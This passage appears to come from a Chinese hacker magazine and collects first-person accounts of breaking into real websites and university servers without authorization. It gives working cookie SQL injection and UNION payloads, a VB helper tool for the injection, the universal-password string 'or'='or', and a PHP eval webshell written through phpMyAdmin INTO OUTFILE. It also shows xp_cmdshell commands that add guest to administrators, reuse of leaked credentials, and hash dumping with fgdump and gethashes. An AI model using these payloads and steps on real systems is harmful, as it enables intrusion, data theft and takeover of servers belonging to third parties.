但是呢在这之前一定要手动检测一下，我们自己构造几个语句试试。首先已经验证“and 1=1” 和 “and 1=2”，如图 2、图 3 所示，由图可以看出，此页面是绝对存在注入漏洞的，因为两次返回页面不同。


接着我们测试猜表语句“select * from admin”，出现了一个提示框，可以断定网站含有防注入程序，如图 4 所示。

- “郑D”并不是字段猜不出，而是根本不能猜。
- 既然网站有防注入程序，只好试下 COOKIE 注入了（一般只要有防注入的网站大多都会对 POST、GET 两种提交方式进行过滤，但是 COOKIE 提交却很少被过滤，大家可以看看之前“菜手”的文章，COOKIE 注入的例子还是很多的）。

## 三、往事回首

学校网站暂且放一放，既然今天主题是 COOKIE 注入，那就说说我第一次利用 COOKIE 的故事吧。之前只对 COOKIE 注入有理论知识，但是没实践过，一次老师讲数据库时用到了一个 ASP 网站程序，主要是让我们更好地理解网站与数据库之间的关系。课后我就把这个程序 copy 下来自己研究，发现了 COOKIE 注入漏洞。

这是个企业网站，简单大方，但是不知道它具体是哪些网站程序，因为被别人改过了。首先看它显示产品的文件 shownews.asp，第 102 行代码如下：

```asp
…省略代码…
<td><%=owen=request("id")%>   ' id没有经过任何过滤
…省略代码…
<%
Set rsnews=Server.CreateObject("ADODB.RecordSet")
sql="update news set hits=hits+1 where id="&cstr(request("id"))
conn.execute sql
sql="select * from news where id="&owen    ' 构造注入语句
rsnews.Open sql,conn,1,1
title=rsnews("title")              ' 打印新闻标题
if rsnews.eof and rsnews.bof then
 response.Write("数据库出错")
else
%>
…省略代码…
<%=rsnews("content")%>   ' 打印新闻内容
```

此页面中 id 没有经过过滤就带到数据库中去查询，注入就产生了。手动测试下“and 1=1”，弹出一个对话框，如图 5 所示。

在肯定了网站含有防注入程序之后，找到了过滤注入的 Check_Sql.asp 文件，此文件并没有针对 COOKIE 提交进行过滤。


看到这里可能小菜有点不明白 COOKIE 注入是怎么产生的？其实很简单：大家都知道，ASP 网站是动态网站，网页的大量信息存储在数据库中，如果你留意的话，会发现这样的事情，就是访问同一个页面，返回的内容却不同。之所以返回不同内容，是因为页面调用数据库中数据不同。

例如某新闻页网址为 xxx.asp?id=1，返回昨天新闻；xxx.asp?id=2，返回今天新闻，在数据库中每个 id 对应一个数据信息，提交不同的 id 则返回不同的数据信息。

那么是谁来提交这个 id 给数据库查询呢？如果你学过 ASP，就应该会知道是 Request 对象来完成这个操作的。

Request 有两种常用的提交方式：**Request.QueryString（GET）** 或 **Request.Form（POST）**，这就是这个网站过滤的两种提交方式。同时 Request 对象可以不通过集合来获得数据，简写成 ID=Request("ID") 这种形式。

可能是程序员偷懒，这样写有一个问题，ASP 是按 QueryString、Form、COOKIE、ServerVariables、集合的顺序来搜索，简写后的提交没有指定是哪一种提交方式，所以在 GET、POST 之后就会使用 COOKIE 提交方式，这样就给了我们利用的机会。

现在我们已经发现了 COOKIE 注入漏洞，如何利用呢？其实就一句话：很简单又很麻烦。说它简单是因为跟其它注入方式一样，在 id 后面加入注入语句即可，不过要修改 COOKIE；说它麻烦就是至今没有一个工具能直接扫描 COOKIE 注入，基本都采用间接的或者手动方式注入。

由于此网站程序是 ASP+ACCESS 的，条件更加严峻，只好手动猜解了（主要是让小菜了解手动注入）。

## 四、手动注入

首先确定注入页面：http://127.0.0.1/2/shownews.asp?id=66，在 IE 中访问：http://127.0.0.1/2/shownews.asp，加载网页显示不正常，如图 6 所示，是因为没有输参数，在数据库中找不到。

之后通过在 IE 中访问：`javascript:alert(document.cookie="id="+escape("66 and 1=1"));`，按回车，弹出一个对话框，如图 7 所示。接着再次访问 `http://127.0.0.1/2/shownews.asp`，就会产生正常页面。


图 7

这是为什么呢？其实在我们访问 `http://127.0.0.1/2/shownews.asp?id=66` 的时候，IE 自动在本地生成了一个 COOKIE 文件，里面存储了 “id=66”。当我们下次访问 `http://127.0.0.1/2/shownews.asp` 页面时会自动打开 id=66 的页面。

然而刚才那句 JavaScript 代码就是修改了本地的 COOKIE，让 COOKIE 存储的 “id=66” 变成了 “id=66 and 1=1”，当再次打开网页时，也就成功构造了注入语句，没有被防注入程序拦截，网页正常打开，如图 8 所示，因为这是 COOKIE 提交方式。


图 8

## 五、编写工具

接下来就不用我多说了吧？麻烦的手动检测，从头到尾都是复制粘贴更改 `javascript:alert(document.cookie="id="+escape("66 and 注入语句"));`，和不停地刷新网页，怎么一个“烦”字了得啊……

实在抓狂了！这么麻烦的工作只能交给电脑了，就用 VB6.0 编写一个 COOKIE 辅助工具吧。说干就干，核心部分代码如下：

```vb
Private Sub Command1_Click()    ' 打开网站
    On Error Resume Next
    Dim a
    a = Text1.Text
    WebBrowser1.Navigate a
End Sub

Private Sub Command2_Click()    ' 刷新
    On Error Resume Next
    WebBrowser1.Refresh
End Sub

Private Sub Command4_Click()    ' 注入
    WebBrowser1.Navigate "javascript:alert(document.cookie='" & Text4.Text & "' & escape(""" & Text3.Text & """))"   ' 修改COOKIE的原理和手动一样
End Sub

Private Sub Command6_Click()    ' 查看源代码
    On Error Resume Next
    Dim qq
    qq = Inet1.OpenURL(Text1.Text)
    Open "龙月.txt" For Output As #1
    Print #1, qq
    Close #1
    answer = MsgBox("源文件是注入网址后面的地址，已经保存网页源代码到当前目录中，名为[龙月.txt]", 0, "友情提示")
    Print answer
    Shell "notepad.exe " & "龙月.txt", vbNormalFocus
End Sub
```

这里只提供了关于本文的代码，简单说明一下：

Command1 中 WebBrowser 控件使用 Navigate 方法来访问页面；Command2 中使用 WebBrowser 的 Refresh 方法来刷新页面；Command4 原理和 Command1 一样。

这里说一下前面那段 JavaScript 代码的意思，想要知道意思就要了解 JavaScript 语言的知识：

- alert() 是显示信息对话框的 alert() 方法，它生成的是一个对话框，在跨站中常用到；
- document.cookie 是 JavaScript 将 COOKIE 保存为 document 对象的一个属性，其属性名称是 cookie，利用这个属性，我们可以知道连接的 COOKIE 数据；
- escape() 函数，它将字符串中所有的非字母字符转换为用字母数字表示的转义字符串，具有编码字符串的功能。

最后一个 Command6 是使用 Inet1 控件的 OpenURL 方法获取网页源文件，并赋值给变量 qq。接着使用 `Open "龙月.txt" For Output As #1` 创建一个记事本文本文件，`Print #1, qq` 是将信息输入到文本中；弹出一个对话框；最后使用 Shell 函数调用记事本程序 notepad.exe 打开文本查看源代码。

## 六、本地实践

程序编写好了，就开工吧。通过数据库知道有一个 admin 表，其中含有 username 和 password 字段，既然用的是 Access 数据库，首选的就是 UNION 联合查询了。

我看了一下 news 表中有 11 个字段，这样就可以带入工具进行注入了。先打开注入网页（不带 id 参数），之后填写构造语句：“`66 and 1=2 union select 1,2,3,4,5,6,7,8,9,10,11 from admin`”，最后点击注入，如图 9 所示。


图 9

接着再次打开网页（不带 id 参数），会看到标题和内容分别换成了 2 和 3，如图 10 所示，接着重复刚才操作，把构造语句改成：“**66 and 1=2 union select 1,username,password,4,5,6,7,8,9,10,11 from admin**”，注入后再次打开网页（不带 id 参数），看到 2 和 3 变成了 admin 和 469e80d32c0559f8，如图 11 所示。

这样子 COOKIE 注入就算成功了，接下来就是进后台拿 WebShell。此程序后台有个备份功能，但是被管理员删了，不过有很多上传文件的地方。通过分析源代码，只有一个文件可以利用，upfile_Other.asp 代码如下：

```asp
<%
sub upload_0()    ' 使用化境无组件上传类
    set upload=new upload_file    ' 建立上传对象
    for each formName in upload.file    ' 列出所有上传了的文件
        set file=upload.file(formName)    ' 生成一个文件对象
        if file.filesize<100 then
            msg="请先选择你要上传的文件！"
            founder=true
        end if
        if file.filesize>(MaxFileSize*1024) then
            msg="文件大小超过了限制，敢大只能上传" & CStr(MaxFileSize) & "K的文件！"
            founder=true
        end if
        fileExt=lcase(file.FileExt)
        Forumupload=split(UpFileType,"|")    ' 允许上传后缀的筛选格式是：gif|jpg|bmp|png|swf|doc
        for i=0 to ubound(Forumupload)
            if fileEXT=trim(Forumupload(i)) then
                EnableUpload=true
                exit for
            end if
        next
        if fileEXT="asp" or fileEXT="asa" or fileEXT="aspx" then
            EnableUpload=false
        end if
        if EnableUpload=false then
            msg="这种文件类型不允许上传！\n\n只允许上传这几种文件类型：" & UpFileType
            response.write "<SCRIPT language=JavaScript>alert('这种文件类型不允许上传！\n\n只允许上传这几种文件类型：" & UpFileType & "');"
            response.write "javascript:history.go(-1)</SCRIPT>"
            founder=true
        end if
        strJS="<SCRIPT language='javascript'>" & vbcrlf
        if founder<>true then
            randomize
            ranNum=int((900*rnd)+100)
            filename=SavePath&year(now)&month(now)&day(now)&hour(now)&minute(now)&second(now)&ranNum&"."&fileExt
            file.SaveToFile Server.mappath(FileName)
            msg="上传文件成功！"
            FileType=right(fileExt,3)
            select case FileType
                case "jpg","gif","png","bmp"
                case else
                    strJS=strJS & "parent.parent.myform.img.value='" & filename & "';" & vbcrlf
            end select
            strJS=strJS & "parent.parent.myform.content.value='" & filename & "';" & vbcrlf
        end if
        strJS=strJS & "alert('" & msg & "');" & vbcrlf
        strJS=strJS & "</script>"
        response.write strJS
        response.write "图片上传成功！文件路径是把【img】" & filename & "【/img】复制到上面的编辑框内<br>"
        response.write "http://" & yourthing & "/" & filename & "<br>"
        set file=nothing
    next
    set upload=nothing
end sub
%>
```


这个上传程序仅对 asp、asa、aspx 过滤，所以我们可以上传 cer 后缀的文件当 webshell。在上传之前先修改一下网页配置，如图 12 所示，保存即可。接着就是上传 cer 文件，如图 13、图 14 所示，这样整个 COOKIE 过程就完成了。

## 七、回归正题

讲了第一次的 COOKIE 注入经历，那么面对现在的学校网站就不再那么没思路了。拿起家伙开始注入，首先还是选择 UNION 查询，当我查询到 9 时，显示：在联合查询中所选定的两个数据表或查询中的列数不匹配，如图 15 所示。

试到 10 时显示：不能更新。数据库或对象为只读，如图 16 所示（在此可以断定字段个数为 10，因为 9 之前都是提示列数不匹配）。

看到这里郁闷了半天，管理员对网站目录进行了权限设置，没有对 everyone 用户设置权限。没办法，只好一个一个地猜解账号密码了。

在 1 个小时中分别以如下构造语句进行测试，终于猜到了表 admin 中字段 username 和 password 的账号密码，进入了后台，如图 17 所示。

```
猜表：52 and (select count(*) from [admin])>0;
猜字段：52 and (select username from admin)>0;
猜值：52 and (select top 1 asc(mid(username,1,1)) from admin)=116;
```

后台实在简单，上传的地方很严格，抓包改后缀都没成功（花了这么多时间，实在是悲哀！更郁闷的是，没找到任何项目资料“+_+”）。

## 八、最后总结

经常看别人在文章中分析源码，很是享受，我也就想着写篇文章。这是第一次写关于分析网站的文章，写得不好还请海涵。

COOKIE 注入可能很多人都知道，但是实践的人很少，主要是因为 COOKIE 注入的检测没有集成到啊 D 或者 NBSI 这种大型工具中。在此告诉大家，工具毕竟是死的，手是活的，手动检测会比工具更能学到知识，更有成就感。

> 【作者写的 cookie 工具与源码已收录在本期光盘】

**编辑点评：** 兔行网站上有一个工具 jzc，是可以直接对 cookie 进行注入的，也有很多转发的 cookie 注射工具，可能是作者没有太留心。不过这样也好，可以增强自己编写工具的能力，作者写的代码很简单，相信对初学 VB 的人很有帮助。

## 拿什么拯救你，我的旁注

图 Yizhigu [L,S,T]

**本文你可以学到旁注的另一种思路**

在通过注入、上传等常规入侵手段无法获取 webshell 的情况下，我们的首要途径就是旁注。可是当服务器上的网站却大部分采取同样一套安全系统的情况下，我们如何避开这些“亲戚”网站而有效地进行旁注呢？

现在许多地方的公司都采取了网站建设公司定制的“系统＋域名＋空间”一条龙服务，所以导致你旁注的目标站点惊人地相似，那么问题就是，你如何找到那个与众不同的它？

这次我的目标服务器 IP 地址为 60.X.X.234，放到 ip.wen.la 进行查询（选择这个查询站是因为它可以开启新链接，而不是 myipneighbors 那样的框架结构），结果如图 1。

我们随便点开一个，是劲易的修改版，我采用 admin/admin 作为用户名和密码成功进入了网站后台。采取常规的方式获取 webshell 的手段是行不通的，至少劲易后台获取 shell 的方式并不太多，经过尝试全部都无疾而终。

可是接下来遇到的情况就傻眼了，继续开了几个网站，仍然采用同样的默认口令进入后台，居然发现全部都是同一套系统，如图 2。

继续在这里折腾吗？至少感觉告诉我没这个必要了（如果这样的后台能够获取 webshell，这些网站早就被挂马了。或许鄙人可以，可惜我是菜鸟一族）。懒得再看了，冷静下来思考了一会，如果能通过特定页面搜索到采取这套系统的网站，那么排除这些，我们缩小目标不就能找到突破口了么？

想法出来了，需要工具的实践。具备批量网站页面检测功能的我手头有个东东，明小子的 DOMAIN 和网站猎手，这里我就以网站猎手为例。

输入 IP 地址后，点击 whois 按钮，程序会自动输出 `http://whois.webhosting.info` 旁注查询返回给我们的信息。进入到“扫描漏洞文件”功能，插入我们得知的以上系统具备的一个特定文件 admin/product_list.asp，点“开始扫描”后结果就显示出来了，如图 3。

很显然，扫描出的结果就是我们要剔除的目标。把结果导出后，用记事本编辑并替换掉路径，只留下域名，然后跟旁注的结果进行对比吧。你用眼睛排除也行，用 fc 命令更好。这当然不是传统意义的找茬，但是给我们的人侵带来一定便利。

经过排除法后，我找到一个目标 `http://www.nx-xx.com/`，在地址后输入 admin 进入后台登录页面，凭感觉，这种后台是存在万能密码漏洞的，输入 `'or'='or'` 成功进入后台。

后台的功能还真是强大，有 eWebEditor，不过没有找到默认数据库。我们在后台找到恢复数据库功能处，发现 text 选择调用了 readonly。我们直接修改源码里的路径值和 POST 的相对路径，本地生成一个表单，就可以提交成功了，如图 4。

获取 webshell 后我发现服务器没有设置好权限，webshell 可以浏览所有盘符，服务器装有 Serv-U 和 pcAnywhere，很方便地就提权成功了。本文的目的并不是提权的过程，所以略去，最后附图一张，以求真实，如图 5。

此文并没涉及到高深的人侵手法，我只是以一个讲述者的心态告诉大家在遇到这类情况时的处理方法，也是告知广大黑友，我们的武器是双刃剑，不要只看到常用的一面，灵活挖掘，你才能体会其中乐趣。当你们遭遇同样的问题时想起了此文，我的目的就达到了。

## 记一次入侵某大学的全过程

从本文你可以注意作者的一些渗透细节

大概是一个月以前，在女朋友的教唆下，入侵了她们学校专门用来放各个学院网站的服务器。方法是很轻松加愉快地用 EWEBEDITOR 上传 WEBSHELL，然后 SERV-U 提权登录 3389，整个过程不到 5 分钟，很久没这么轻松地进入一台服务器了。看来，安全性很差的服务器还是有的。

在一个月黑风高的夜晚，我突然有种变态想法，想多拿几台她们学校的服务器，当然，首先向电信和网通线路的主站发起挑战。

粗略看了下，网站是 PHP 的，用的 WINDOWS 2K3 平台，telnet 服务开的 3306 端口是开放的，可是拒绝了我的连接，如图 1。看来即使拿到了 MYSQL 的 ROOT，也不能外部连接提权。

紧接着又用 X-SCAN 扫描了下，除了 3389 以外没有什么可用的了，看来还是老办法，从 WEB 下手吧。

经过相当长一段时间的探索，虽然没有找到注入点，可是却找到了个 PHP 程序报错的地方，在 URL 后加单引号提交的时候，程序给我们提供了非常关键的信息——绝对路径，如图 2。

可以看到 WEB 的绝对路径是 `d:\appserv\.\www\***\more.php`。对 APACHE、PHP 和 MYSQL 比较了解的朋友都知道，有个安装包叫做 APPSERV，该安装包的默认安装路径就是 `x:\appserv`。而 APPSERV 默认在提供 WEB 服务的文件夹 WWW 下安装 PHPMYADMIN。

灵感来了，马上打开 `http://www.xxx.edu.cn/phpmyadmin`，出现了登录页面，随便试了几个密码，居然用户名和密码都是 root。遇到弱口令了，一贯命苦的我居然也有人品爆发的时候。

有了 PHPMYADMIN，一切问题很轻松地就解决了，随便挑了个数据库执行如下 SQL 命令：

```sql
Create TABLE fuck(cmd text NOT NULL);  // 建立一个名为 fuck 的表
Insert INTO fuck(cmd) VALUES ('<?php eval($_POST[x]);?>');  // 将 PHP 一句话木马插入到表中
select cmd from a into outfile 'd:/appserv/www/view.php';  // 建立 VIEW.PHP 文件，里面含有 PHP 一句话木马的代码
Drop TABLE fuck;  // 把 fuck 表删除
```

命令执行后 PHPMYADMIN 提示成功，用 IE 访问我们的 PHP 木马：`http://www.xxx.edu.cn/view.php`，如图 3。

然后，马上用 LANKER 的 PHP 一句话木马客户端连接，接着就可以执行系统命令把 GUEST 激活并添加到 administrators 组（APPSERV 是系统权限），提示“命令成功完成”，如图 4。哈哈，用 3389 连接哟，如图 5。

看了下服务器的配置，一个大学的主站居然用的是奔腾 D 的处理器，太垃圾了，怪不得登录 3389 都非常地卡。接着就无耻地顺手牵羊把代码拷回来研究研究，对着代码搞 LINUX 平台的教育网主站。

因为网站有上传文件的地方，先进去看看能不能上传 PHP 马。后台地址是 `/management/login.php`，至于管理员用户名密码，我估计应该是和电信网通线路的服务器是一样的。

# 西线无战事

在之前那台服务器的 PHPMYADMIN 里，执行 SQL 语句 `SELECT * from admin`，然后破解 MD5 得到一个管理员的用户名和密码都是 xcb。登录后台，新增图片新闻，上传 PHP 马，如图 6。

很遗憾，不能上传 PHP 马了，不过没关系，我们有源代码嘛，看看上传部分的代码是如何过滤的，然后再来考虑怎么绕过。

上传部分代码如下：

```php
<?php
if($_GET["op"]=="upload"){
    require_once("../config/dbconnect.inc.php"); // 连接数据库文件
    function fileExtName($fStr){
        $retval = "";
        $pt = strrpos($fStr,'.');
        if($pt) $retval = substr($fStr,$pt+1,strlen($fStr)-$pt);
        return ($retval);
    }
    $uploaddir = '../uploadfile/'; // 定义上传目录
    $file = $_FILES['pic_file']['name'];
    $ext = fileExtName($file);
    $ext = strtolower($ext);
    if($ext!="jpg" && $ext!="gif") // 只允许上传 JPG 和 GIF 格式
    {
        echo "<script>alert('文件类型出错，请返回重试！');history.go(-1);</script>";
    }
    $uploadfile = $uploaddir . $file;
    if(move_uploaded_file($_FILES['pic_file']['tmp_name'],$uploadfile))
    {
        $sql = "insert into pic(picurl) values ('{$uploadfile}')";
        if(mysql_query($sql) or die(mysql_error())){
            echo "<script>alert('图片上传成功！');history.go(-1);</script>";
        }
    }else{
        echo "<script>alert('数据库错误，请重试！');</script>";
    }
}else{
    echo "<script>alert('上传失败，请返回重试！')</script>";
}
?>
```

上传用了主动过滤的方式，只允许上传 JPG 和 GIF 格式的文件，看来通过上传文件传 PHP 马的梦想破灭了。

我把代码发给对 PHP 兴趣极其变态的 FLY 看了看，兴许他能找到个包含漏洞吧。他说干吗不用动注呀，fckeditor 上传 PHP 木马呢？经过他的提醒我才恍然大悟，之前我也看到了源代码里有 fckeditor，可是在服务器上浏览 fckeditor 时总提示 Not Found。原来，*NIX 下区分大小写，真正的目录应该是 FCKeditor。看来入侵的过程中真的是一点也马虎不得。

FCKeditor 有个上传漏洞是 CN 大牛发现的，我们就用它来得到 WEBSHELL。打开 `http://www.xxx.edu.cn/FCKeditor/editor/filemanager/browser/default/browser.html?Type=../&Connector=connectors/asp/connector.asp`，这个 URL 可以把 PHP 马上传到根目录下。

可是过了一会，upload 按钮变成灰色的，PHP WEBSHELL 并没有传上去，如图 7。仔细分析了下目录，发现 FCKeditor 目录下还有个 FCKeditor 目录。我真佩服了，也不知道这帮管理员怎么想的。试了目录里面的那个 FCKEDITOR，也是同样上传不了。

之后想了一会，尝试用 apache 的解析漏洞。可悲啊，英雄无奈是多情，目录并不解析 PHP 文件，如图 8。

# 西线无战事

没办法，静下心来一点一点看源代码吧，如果可以找出个注入漏洞就 HAPPY 了。噢，怎么还有个 PHP 版本的 eWebEditor？哈哈，机会来了！用它把我们心爱的 PHP 马传上去吧！

打开登录页面的 URL，用户名密码输一下，都输入 admin，居然进去了，如图 9。PHP 版本的 EWEBEDITOR 和 ASP 一样，通过样式管理，新增样式，然后在预览里就可以传 WEBSHELL 了。轻车熟路地传一个，终于拿到了一个 PHP WEBSHELL，如图 10。在 WEBSHELL 执行命令 `whoami`，看看现在的权限，显示的是 apache，还不是 ROOT，如图 11。

没关系，在服务器上看看有没有什么对我们有用的东西。打开数据库连接文件看看，得到了数据库的账号和密码，如图 12。根据之前入侵的经验，这个网站管理员貌似习惯用一样的密码。试试看是否服务器的 ROOT 密码也和数据库账号密码一样。

扫描了下服务器的端口，开放了 22 端口，用 PUTTY 连接服务器的 22 端口 SSH。用 MYSQL 的账号和密码连接，成功了，如图 13，哈哈，终于拿到了 ROOT。

紧接着就对学校比较敏感的高校科研管理系统下手。该系统我所能见的只有一个登录页面，如图 14，这对我们黑箱测试十分不利，没办法，只能从别的地方下手了。

用 GOOGLE 搜索 `site:59.70.***.*`，GOOGLE 帮我们找到了该服务器上还放着学校的科研信息网，如图 15。

打开该网站随便点了个新闻链接，在 URL 的后面加 `and 1=1` 和 `and 1=2` 及单引号进行检测，发现这真是个 .NET 的注入点，如图 16，而且还是显错模式！我今天怎么了？运气这么好，太不可思议了！我得去国外买六合彩，人民币已经满足不了我的要求了！

用 `and user>0` 爆出数据库连接用户，晕，居然是 SA，如图 17，我都不记得我有多长时间没遇到过 SA 权限的注入点了。`and (select @@version)>0` 爆出数据库版本，是 MSSQL 2005。提交 `declare @fuck int`，返回正常，说明可以支持多句查询。

对付 SA 权限，我们当然首先用存储过程来执行系统命令。MSSQL 2005 在默认情况下，许多危险进程都是关闭的，不过我们可以用一个叫做 `sp_configure` 的存储过程把关闭的 `xp_cmdshell` 等存储过程开启（PS：MSSQL 2005 和 MSSQL 2000 的语法有一些不同的地方），执行语句如下：

```sql
exec/**/sp_configure/**/[show advanced options],1;--;RECONFIGURE--
exec/**/sp_configure/**/[xp_cmdshell],1;--;RECONFIGURE--
exec/**/sp_configure/**/[Ad Hoc Distributed Queries],1;--;RECONFIGURE--
```

返回正常，说明 `xp_cmdshell` 已经被成功开启，下面我们就可以用如下语句把 GUEST 用户激活并添加到管理员组中，接着就可以登录 3389 了。

```sql
exec/**/master.dbo.xp_cmdshell/**/'net user guest /active:yes';
exec/**/master.dbo.xp_cmdshell/**/'net user guest fuck';
exec/**/master.dbo.xp_cmdshell/**/'net localgroup administrators guest /add';
```

总结：从这次入侵过程可以看出，国内高校的网络安全状况确实很不好，希望以后高校的管理员们对学校的网络安全提高重视。

**编辑点评：** 本篇文章技术是没有什么新的了，主要是作者针对一些细节，抽丝剥茧，层层渗透。当然，运气好也是一个取得成功的重要条件。

## “西线无战事”被社工了

**从本文你可以学到社工的简单利用**

打开论坛，猛然发现自己已经得了一枚“风雨同舟”奖。原来学习黑客已经 1 年半了，不得不感激“黑手”对我们这些入门小菜作出的贡献。

在本人认真读书的过程中，也发现了“西线无战事”的一个问题，那就是信息泄露，下面我就对 2008 年第 12 期杂志的“西线无战事”栏目中的信息泄露做一下进一步地渗透。

## 第三篇：《xlightftp 的我猥琐你——记一次艰难的提权性入侵之旅》

信息泄漏源：2008 年第 12 期杂志第 65 页图 9

## 第一篇：《对某虚拟主机的一次安全渗透》

信息泄漏源：2008 年第 12 期杂志第 55 页图 8。

我的入侵：既然我们是站在前辈的肩上入侵，就要利用好我们掌握的资源。通过杂志的 58 页图 17，我发现有 LC5 破解的帐号和密码，泄露的内容为：ad***automation.com。我们将当前文章图 8 中得到的网址放到 www.ip866.com 查询空间的捆绑，发现如图 1 所示的网站。

| 序号 | 域名 | 说明 |
|---|---|---|
| 031 | \.it.com | 域名注册信息 |
| 032 | \.tion.com | 域名注册信息 |


直接进入该网站的 ftp，用该网址做 ftp 的账号，用当篇文章中破解的密码 chenweimin 登录成功，如图 2。


```txt
G:\setup\vbs\60.10.1.88.txt
AppPool:#1;AppPool:#10;AppPool:#12;AppPool:#13;AppPool...
W3SVC\1\ROOT\...
```


直接上传 web 木马，根据当篇文章作者写文件的方法，得到了管理员的帐号密码，如图 3。好了，渗透就到这里，我们的目的并不是肉鸡。

## 第二篇：《从 webshell 到 C 段肉鸡》

信息泄漏源：2008 年第 12 期杂志第 61 页图 9

我的入侵：打开 www.ip866.com，将得到的 IP 地址进行搜索查看捆绑空间，很简单地得到了一个 webshell（用户端的弱口令），如图 4。


进入 webshell 后发现作者提供的 pcAnywhere 已经被删除，端口扫描了一下，发现该服务器开着 1433，当然作者也发现了，不过他可没有小菜我细心哦，如图 5，其中的“www_cnbaking_com”文件夹代表网站用的是 MSSQL 哦。


我们的 webshell 权限不小，直接进入到该网站的数据库连接文件，呵呵，终于找到了 SQL 连接账号和密码，如图 6。直接用 webshell 的 SQL 连接成功，如图 7。

```txt
D:\wwwroot\www_cnbaking_com\wwwline\const.asp
<% Response.Charset="gb2312" %>
<%
Session.CodePage=936
response.Buffer=true
response.CacheControl="Public"
...
connstr="Provider=sqloledb;Data Source=...;Initial Catalog=...;User Id=...;Password=..."
```


我的入侵：很抱歉，作者入侵的网站已经关闭，可能作者的报复行动已完成，如图 8。

## 第四篇：《jsp 注入搞定教务处》

信息泄漏源：2008 年第 12 期杂志第 69 页图 8


我的入侵：直接输入网址发现无法显示页面，根据图中的文件夹及文件名在百度搜索，发现作者是 XX 电子科技大学的，但是在百度搜索到的也打不开，如图 9。


在百度搜索“XX 电子科技大学”，发现该学校换了网站，不过还是不安全啊！如图 10，由于我家连教育网网速超慢，就不再检测了，有兴趣的小菜可以去看一下啊。

## 第五篇：《渗透 XX 大学主站》

信息泄露源：该大学校训

我的入侵：呵呵，可能比较巧吧，初中时我们语文老师让我们背过许多大学的校训，通过这个校训知道了某大学。哎，又是可恶的教育网，网速慢就卡。站在前辈的肩上当然看得远，当期文章中说 phpMyAdmin 没有认证，那我们就直接用 phpMyAdmin 搞吧。一般的 phpMyAdmin 都是插入一个表格，然后导入到网站的目录就可以，但是这个网站不知道怎么搞的，就是不行，还是用作者的方法入侵吧。

表 enchway_members（phpMyAdmin 界面）

选择 text 数据库，eachway_members 表，将 admin 的密码改成（原密码在 www.cmd5.com 上是要花钱买的）e10adc3949ba59abbe56e057f20f883e（123456），如图 11。


直接在网站后台输入 /admin/ 进入后台，按照当期作者的思路，“下载管理－参数设置－增加 cer 扩展名－增加下载”，可是操作起来又出现了麻烦，上传的 cer 文件一访问就弹出下载选项，如图 12，不知前辈是怎么弄得。不过，到这里就 OK 了，将改掉的东西全改过来，清理一下，走人……


高手：

这期的专栏，让我们回归传统，就是内网入侵。在 RPC 蠕虫肆虐前，内网的入侵手法在外网中都是可以直接用的，不过蠕虫爆发后及随着网络安全水平的提高，外网的入侵基本都是靠注入了，所以一些小菜很少有机会接触到内网入侵的手法。就算是有的读者知道了内网的常规手法，但是其结构化的内网入侵手法我想也是很多读者不知道的，所以还是看下本期的文章吧。

## 从本文你可以了解到一些内网渗透小工具

说到内网渗透，可能对一些新手来说还是比较陌生的，真的碰到一个大的内网时，特别是复杂结构的内网时，往往让新手朋友不知如何下手；而现在一些大型的企业，所采用的网络拓扑都普遍是这样的结构。鉴于如此，本期 NP 就开始给大家介绍下内网渗透中常用到的一些小工具。

### 一、管理员密码的获取

提权成功后，我们一般都会去尝试获取管理员的密码，而获取管理员密码有很多方法可以实现，比如通过社会工程学、第三方软件、键盘记录、抓取 Hashes 并破解！但是前三种，都属于比较被动的。现在暴力破解有了 RainbowCrack 当老大，只要我们有相关的 Tables，一切就变得简单了。

对于 WIN 系统的 LM Hashes，网络上早就提供了 120G 和 60G 的版本，我现在用的 Tables 就是 RainbowCrack 官方 Demo 中的字典，也就是 60G 的版本，用了快 2 年了，99% 的密码都可以跑出来，效率很高，只要 Hashes 不是很多，基本一天内就可以跑出来（RainbowCrack 的相关信息可以从网上获得，或者参阅 2009 年 01 期《黑客手册》的文章《浅谈 Hacking 中的小技巧》）。

## 内网渗透中的小工具（一）

好了，感觉有点跑题了，我们接着来介绍获取系统 Hashes 的工具。首先出场的是 GetHashes，这个工具来自 saminside 的工具包，官方最新版本是 1.6。它的运行界面如图 1 所示，抓取 Hashes 的命令也很简单，`getHashes $local` 就可以了，抓取 Hashes 的效果如图 2 所示。

```txt
C:\>gethashes
GetHashes v1.6
Copyright (c)2004-2008 InsidePro, http://www.InsidePro.com
Using:

    GetHashes.exe <SAM registry file> [System key file]
Or
    GetHashes.exe $local
```

```txt
C:\>gethashes $local
Administrator:500:AAD3B435B51404EEAAD3B435B51404EE:31D6CFE0D16AE...
pca::
Guest:501:AAD3B435B51404EEAAD3B435B51404EE:31D6CFE0D16AE...
HelpAssistant:1000:...
EBY::
SUPPORT_388945a0:1002:AAD3B435B51404EEAAD3B435B51404EE:...
S6C7D4F::
vmware_user::1004:AAD3B435B51404EEAAD3B435B51404EE:...
41116A::
```

一般情况下，这个工具就可以轻松获得我们所要的 Hashes 了，但偶尔也会碰到不好使的时候，比如运行后什么都没抓出来，这个时候请尝试下用 SYSTEM 权限再运行一遍，或许就能成功了。

如果抓不出 Hashes，我们可以尝试下 Fgdump，官方最新版本为 2.1.0。Fgdump 的使用也很简单，直接运行程序就可以了，Hashes 会自动导入到同目录下的 127.0.0.1.pwdump 文件中。有时候导出时会发现用户名是乱码，请多尝试几次。程序运行界面如图 3 所示，抓取的 Hashes 的结果如图 4 所示。

要是用这两个工具都没有办法抓到 Hashes，这时候我们可以再尝试著名的 Pwdump7.1，这个是 Pwdump 系列的最新版本，就算是个头大了点，而且还带了个 libeay32.dll。尽管如此，但用此工具抓 Hashes 真的是百试不爽！程序运行效果如图 5 所示。

```txt
C:\>fgdump
fgDump 2.1.0 - fizzgig and the mighty group at foofus.net
Written to make j0nLku's life just a bit easier
Copyright(C) 2008 fizzgig and foofus.net
fgdump comes with ABSOLUTELY NO WARRANTY!
This is free software, and you are welcome to redistribute
under certain conditions; see the COPYING and README files
for more information.
No parameters specified, doing a local dump. Specify -? for help.
--- Session ID: 2008-12-26-08-30-06 ---
Starting dump on 127.0.0.1
** Beginning local dump **
OS (127.0.0.1): Microsoft Windows XP Professional Service ...
Passwords dumped successfully
--- Summary ---
Failed servers:
NONE
Successful servers:
127.0.0.1
Total failed: 0
Total successful: 1
C:\>
```

我们将获得的 Hashes 用 RainbowCrack 加 LM Hashes Rainbow Tables 进行暴力破解，这样就可以花很短的时间内获取我们所要的管理员密码，并进行进一步的渗透了。

